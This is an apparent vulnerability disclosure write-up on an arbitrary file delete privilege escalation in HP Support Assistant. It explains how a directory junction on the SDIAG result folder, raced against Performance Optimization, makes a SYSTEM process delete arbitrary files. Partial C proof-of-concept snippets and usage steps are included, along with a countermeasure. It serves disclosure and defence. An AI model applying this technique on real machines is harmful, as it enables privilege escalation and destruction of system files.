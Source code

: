 ## Arbitrary File Delete Elevation of Privilege in HP Support Assistant

<div>
  <table>
    <tr>
      <th colspan="2">Vulnerability Information</th>
    </tr>
    <tr>
      <td>Platform</td>
      <td>Windows 10 20H2 (OS Build 19042.1387)</td>
    </tr>
    <tr>
      <td>Vendor</td>
      <td>HP (Hewlett-Packard)</td>
    </tr>
    <tr>
      <td>Application</td>
      <td>Support Assistant (Version 9.11.106.0)</td>
    </tr>
    <tr>
      <td>Function</td>
      <td>Operating System Check</td>
    </tr>
    <tr>
      <td>Date of Discovery</td>
      <td>2021-12-01</td>
    </tr>
  </table>
</div>

### Summary
It logs and automatically deletes diagnostic data when performing operating system scans in HP Support Assistant running with normal User privileges. At this time, if the path is manipulated through NTFS Mount Point/Directory Junction among Windows Symbolic Links, it can be abused to delete arbitrary files with `SYSTEM` privileges.

### Detail
When HP Support Assistant is launched, the HPSAAppLauncher process runs as a child process of the AppHelperCap service. The AppHelperCap service is a basic service provided in HP notebooks and operates with `SYSTEM` privileges. Also, if the functions provided by HP Support Assistant are performed, a new process is launched as a child process of the HPSAAppLauncher process.
HP Support Assistant provides a number of features. If you go to Fix and Diagnostics in Device Support, the operating system check function exists, and when you do that, a new process called HPOSCheck runs with `SYSTEM` privileges.

> **Process Hacker: Check process permissions**

![image](https://user-images.githubusercontent.com/44025989/207381187-5c959a87-4ae1-4468-978f-0c46da69b55e.png)</br>

During the operating system check by the HPOSCheck process, diagnostic data for BITS, Windows Update, Device Center, Maintenance, and Device are created in the following paths with `SYSTEM` privileges, respectively.

```powershell
C:\Program Files (x86)\HP\HP Support Framework\Resources\HPOSCheck\Resources\xml\BITS
C:\Program Files (x86)\HP\HP Support Framework\Resources\HPOSCheck\Resources\xml\WindowsUpdate
C:\Program Files (x86)\HP\HP Support Framework\Resources\HPOSCheck\Resources\xml\DeviceCenter
C:\Program Files (x86)\HP\HP Support Framework\Resources\HPOSCheck\Resources\xml\Maintenance
C:\Program Files (x86)\HP\HP Support Framework\Resources\HPOSCheck\Resources\xml\Device
```

The generated data is deleted immediately by automatically calling the `DeleteFileW` function, and at the same time, the diagnostic data saved for each area in the `"C:\Windows\Temp\SDIAG_Random GUID\result"` path are integrated and saved. Afterwards, when the operating system check is finished, the `"SDIAG_Random GUID"` directory created in the path is deleted calling the `DeleteFileW` function with `SYSTEM` privilege.

```C
_TCHAR tempPath[1024] = L"C:\\Windows\\Temp";

WIN32_FIND_DATA data;

HANDLE hFind = FindFirstFile(L"C:\\Windows\\Temp\\SDIAG_*", &data);
if (hFind == INVALID_HANDLE_VALUE)
{
	printf("[!] Cannot Find sdiag Directory\n");
	return 1;
}

_TCHAR* sdiagDir = L"Error";

while (FindNextFile(hFind, &data) != 0)
{
	if (wcscmp(data.cFileName, L".") == 0 || wcscmp(data.cFileName, L"..") == 0)
		continue;
	else sdiagDir = data.cFileName;
}
```

The path where the `"SDIAG_Random GUID"` directory is created has high privileges, so general users cannot access it. However, one of the HP Support Assistant features, Performance Optimization, can be used to delete files in that path.
If the `"C:\Windows\Temp"` path is empty by optimizing the performance while the operating system check is in progress, the operating system check can still have the handle. At this time, if you make a directory junction to the `"result"` directory with an arbitrary path, you can follow the link and delete the files in the target path with `SYSTEM` privilege.

```C
CreateDirectory(sdiagPath, nullptr);
CreateDirectory(fullpath, nullptr);

if (CreateDirectory(fullpath, nullptr) || (GetLastError() == ERROR_ALREADY_EXISTS))
{
	if (!ReparsePoint::CreateMountPoint(fullpath, argv[1], argc > 2 ? argv[2] : L""))
	{
	printf("[!] Error creating mount point - %ls\n", GetErrorMessage().c_str());
		return 1;
	}
}
else
{
	printf("[!] Error creating directory - %ls\n", GetErrorMessage().c_str());
}
```

### Proof of Concept
1. After verifying user information, start HP Support Assistant.
2. Go to Device Support, then select Fixes and Diagnostics.
3. Run an operating system check.
4. Perform PoC in the format of `HPOSCheck_PoC.exe [target dir]`.
5. When the message `"Start Optimize performance without additional options and press ENTER"` appears, run performance optimization and press ENTER.
6. When the PoC ends with the phrase `"Now Close the operating system check window!!!"`, the operating system check ends.

> **Usage PoC**

![image](https://user-images.githubusercontent.com/44025989/207381332-e1bfb343-3d91-4733-9be9-da443ac7d326.png)</br>

### Demo
[![Video Label](http://img.youtube.com/vi/DeQCBZQaGVo/0.jpg)](https://youtu.be/DeQCBZQaGVo)

### Countermeasures
When performing operating system checks in HP Support Assistant running with normal user privileges, the `ReparseTag` must be checked internally when the `DeleteFileW` function is called.


### Reference
* **[symboliclink-testing-tools, Developed by James Forshaw](https://github.com/googleprojectzero/symboliclink-testing-tools.git)**
